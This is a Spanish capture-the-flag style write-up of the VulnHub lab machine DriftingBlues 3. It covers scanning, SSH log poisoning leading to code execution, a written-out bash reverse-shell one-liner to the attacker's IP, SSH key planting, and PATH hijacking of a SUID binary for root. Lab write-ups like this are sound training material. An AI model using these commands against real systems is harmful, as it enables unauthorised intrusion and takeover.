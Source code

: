 ```yaml
---
title: Driffting Blues 3
date: 2024-07-10
categories: [WRITEUPS, VulnHub]
tags: [log poisoning]  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.150 -n -Pn -v
```

![picture](/assets/images/vulnhub/db3-1.png){: w="600" h="300" }

A continuación, nos iremos al navegador para ver la página web del servicio **HTTP**.

![picture](/assets/images/vulnhub/db3-2.png)

La página Web parece ser la de un festival de música, no encontramos nada interesante, por lo que a continuación realizaremos **Fuzzing** con **Gobuster** para encontrar entradas que no podamos ver a simple vista.

```bash
gobuster dir -u http://192.168.1.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/db3-3.png)

En el archivo "**robots.txt**" encontramos la siguiente entrada.

![picture](/assets/images/vulnhub/db3-4.png)

Y a su vez, en la entrada encontrada, nos dice que tienen un problema con el servicio **SSH**, y que miremos en "**/littlequeenofspades.html**".

En la siguiente entrada, encontramos la letra de una canción y una contraseña en **base64**.

![picture](/assets/images/vulnhub/db3-5.png){: w="600" h="300" }

Al decodificarla, nos muestra otra cadena hasheada, el cual volveremos a decodificar, y nos mostrará lo que parece ser un archivo de **log**, con los registros de eventos de las tareas **CRON** y  algunos mensajes con la autenticación **SSH**.

Si intentamos conectarnos mediante **SSH** con un usuario aleatorio llamado "*pwned*", podemos comprobar que el registro se actualiza y sale la conexión no exitosa.

![picture](/assets/images/vulnhub/db3-6.png)

---

## **Explotación**

A continuación, la idea es derivar un **Log Posioning** a un **RCE** (*Remote Code Execution*). Para ello tendremos que introducir código **PHP** en el nombre del usuario mediante la conexción **SSH**.

Al intentar inyectar código **PHP** mediante el usuario de **SSH** nos da un error por caracteres inválidos.

![picture](/assets/images/vulnhub/db3-7.png)

Así que nos iremos a **metasploit**, y usaremos el siguiente **exploit** para que nos deje introducir código **PHP**.

![picture](/assets/images/vulnhub/db3-8.png)

Indicaremos en el nombre, el código en **PHP** por el cual podremos ejecutar comandos en la web, una contraseña cualquiera, y la dirección **IP** de la máquina vulnerable.

![picture](/assets/images/vulnhub/db3-9.png){: w="600" h="300" }

Ejecutamos el exploit, y ya podremos ejecutar comandos con el parámetro que hayamos escogido, en mi caso es "**cmd**".

![picture](/assets/images/vulnhub/db3-10.png)

Ejecutamos el comando id en el navegador, y nos lo muestra.

![picture](/assets/images/vulnhub/db3-11.png)

A continuación, ejecutaremos una **Reverse Shell** en el navegador, mientras que en nuestra máquina local estaremos escuchando con un **Listener** con **ncat**.

1. Máquina local

    ```bash
    nc -nlvp 4444
    ```

2. Navegador

    ```bash
    bash -c "bash -i >%26 /dev/tcp/"Nuestra IP"/4444 0>%261"
    ```

Y acabamos de obtener acceso a la máquina.

![picture](/assets/images/vulnhub/db3-12.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Buscando por la máquina he encontrado que en el directorio del usuario "**robertj**", tenemos permisos de lectura, escritura y ejecución en el directorio ***.ssh***, pero en el directorio se encuentra vacío.

Para poder migrar al usuario "**robertj**", lo que haremos será crear una clave privada y otra pública con el siguiente comando.

```bash
ssh-keygen -t rsa -b 2048 -f id_rsa
```

![picture](/assets/images/vulnhub/db3-13.png){: w="600" h="300" }

Una vez hecho esto, tendremos que introducir el contenido de la clave pública en un archivo llamado "**authorized_keys**".

```bash
cat id_rsa.pub >> authorized_keys
```

A continuación, copiaremos el contenido de la clave privada, crearemos un archivo en nuestra máquina local llamado "**id_rsa**", pegaremos la clave privada, y por último le daremos **permisos 600**.

Entramos mediante **ssh** y la clave privada.

Obtenemos acceso, y podemos leer la primera **flag** de usuario.

![picture](/assets/images/vulnhub/db3-14.png){: w="600" h="300" }

Buscando permisos **SUID** he encontrado el siguiente binario.

![picture](/assets/images/vulnhub/db3-15.png){: w="600" h="300" }

Si lo ejecutamos, podemos comprobar que muestra el contenido de "**/etc/hosts**", y muestra el comando **uname -a**.

![picture](/assets/images/vulnhub/db3-16.png)

Para poder escalar privilegios, nos iremos al directorio "*/tmp/*" y crearemos un archivo llamado ***uname***, el cual dentro obtendrá una bash. Y le damos permisos 777.

![picture](/assets/images/vulnhub/db3-17.png){: w="600" h="300" }

Introduciremos al **PATH** la ruta de **tmp**, para que encuentre antes nuestro archivo que el comando **uname**.

```bash
export PATH=/tmp/:$PATH
```

Ejecutamos el binario, y obtenemos la bash como **root**.

![picture](/assets/images/vulnhub/db3-18.png)

Y podemos leer la segunda flag del usuario **root**.

![picture](/assets/images/vulnhub/db3-19.png){: w="300" h="200" }

